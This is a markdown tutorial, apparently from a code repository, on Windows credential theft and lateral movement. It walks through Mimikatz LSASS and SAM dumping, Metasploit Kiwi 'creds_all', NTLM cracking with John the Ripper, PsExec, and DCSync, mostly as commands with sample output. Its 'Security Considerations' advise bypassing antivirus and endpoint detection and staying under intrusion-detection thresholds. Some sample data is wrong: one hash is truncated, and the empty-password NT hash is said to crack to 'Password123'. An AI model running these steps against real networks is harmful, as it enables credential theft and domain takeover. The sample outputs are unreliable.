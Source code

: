 ```markdown
# Windows Persistence, Lateral Movement, Credential Access, and Review

This document provides an overview of Windows credential access, lateral movement, credential dumping, and advanced attacks like DCSync. Each section includes easy-to-follow examples to help you understand and practice these techniques.

---

## Understanding Windows Credentials and Mimikatz

Windows credentials are stored in various locations, such as the Security Account Manager (SAM) database, Local Security Authority Subsystem Service (LSASS) memory, and Active Directory. Mimikatz is a powerful tool used to extract these credentials.

### Example: Using Mimikatz to Extract Credentials
1. **Dump Credentials from LSASS**:
   ```plaintext
   sekurlsa::logonpasswords
   ```
   - **Output**:
     ```plaintext
     Username: jdoe
     Domain: MEGACORP
     Password: Password123
     ```

2. **Dump NTLM Hashes from the SAM Database**:
   ```plaintext
   privilege::debug
   lsadump::sam
   ```
   - **Output**:
     ```plaintext
     Administrator:500:aad3b435b51404eeaad3b435b51404:31d6cfe0d16ae931b73c59d7e0c089c0:::
     ```

---

## Credential Dumping with Metasploit Kiwi Extension

Credential dumping involves extracting cached credentials from a target machine. The Metasploit Kiwi extension is a powerful tool for this purpose.

### Example: Dumping Cached Credentials
1. **Scenario**:
   - You have a Meterpreter session on the target machine (WIN10).

2. **Steps**:
   - Load the Kiwi extension:
     ```plaintext
     meterpreter > load kiwi
     ```
   - Dump credentials:
     ```plaintext
     meterpreter > creds_all
     ```
   - **Output**:
     ```plaintext
     Username: jdoe
     NTLM Hash: aad3b435b51404eeaad3b435b51404:31d6cfe0d16ae931b73c59d7e0c089c0
     ```

3. **Save the Hashes**:
   - Save the output to a file (e.g., `hashes.txt`).

4. **Crack the Hashes**:
   - Use John the Ripper to crack the hashes:
     ```bash
     john --format=ntlm hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
     ```
   - **Output**:
     ```plaintext
     jdoe:Password123
     ```

5. **Use Case**:
   - Obtain valid credentials for further exploitation or lateral movement.

---

## Performing Lateral Movement

Lateral movement involves using compromised credentials to access other machines in the network.

### Example: Using PsExec for Lateral Movement
1. **Command**:
   ```bash
   psexec \\<target-ip> -u <username> -p <password> cmd.exe
   ```
   - **Explanation**:
     - `\\<target-ip>`: Specifies the target machine's IP address.
     - `-u <username>`: Specifies the username.
     - `-p <password>`: Specifies the password.
     - `cmd.exe`: Opens a command prompt on the target machine.

2. **Output**:
   ```plaintext
   Microsoft Windows [Version 10.0.19041.1237]
   (c) 2020 Microsoft Corporation. All rights reserved.

   C:\Windows\system32>
   ```

3. **Use Case**:
   - Execute commands on the target machine to gather information or escalate privileges.

---

## Credential Access: Performing a DCSync Attack

The DCSync attack leverages replication permissions to request and retrieve password hashes from a domain controller.

### Example: Performing a DCSync Attack
1. **Scenario**:
   - You have administrator access on the domain controller (WINDC01).

2. **Tool**: Mimikatz

3. **Command**:
   ```plaintext
   lsadump::dcsync /domain:<domain-name> /user:<username>
   ```
   - **Explanation**:
     - `/domain:<domain-name>`: Specifies the domain name (e.g., `megacorp.local`).
     - `/user:<username>`: Specifies the username to retrieve credentials for (e.g., `Administrator`).

4. **Output**:
   ```plaintext
   Object    : Administrator
   NTLM      : 31d6cfe0d16ae931b73c59d7e0c089c0
   ```
5. **Use Case**:
   - Extract NTLM hashes for high-value accounts, such as `Administrator`.

---

## Security Considerations

- **Mimikatz**:
  - Use only with explicit permission.
  - Ensure antivirus and endpoint detection systems are bypassed if necessary.

- **Lateral Movement**:
  - Limit attempts to avoid detection by intrusion detection systems (IDS).
  - Use encrypted communication channels to avoid triggering alerts.

- **DCSync Attack**:
  - Ensure you have replication permissions before attempting this attack.
  - Be aware that this attack is highly detectable in Active Directory logs.

---

By understanding these techniques and practicing the examples, you can effectively perform Windows credential access, lateral movement, credential dumping, and advanced attacks like DCSync while adhering to ethical guidelines.
```